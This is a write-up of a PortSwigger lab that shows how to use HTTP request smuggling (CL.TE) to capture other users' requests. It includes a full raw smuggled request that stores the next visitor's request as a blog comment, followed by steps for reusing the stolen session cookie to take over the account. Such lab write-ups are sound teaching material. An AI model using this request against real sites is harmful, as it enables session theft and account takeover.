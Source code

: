 # Exploiting HTTP request smuggling to capture other users' requests

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-capture-other-users-requests) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## Reproduction and proof of concept

1. Visit a blog post and post a comment.
2. Send the ``comment-post`` request to Burp Repeater, shuffle the body parameters so the ``comment`` parameter occurs last, and make sure it still works.
3. Increase the ``comment-post`` request's ``Content-Length`` to 400, then smuggle it to the back-end server:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```

4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5. Copy the user's Cookie header from the comment, and use it to access their account.

## Exploitability

An attacker will need to smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.
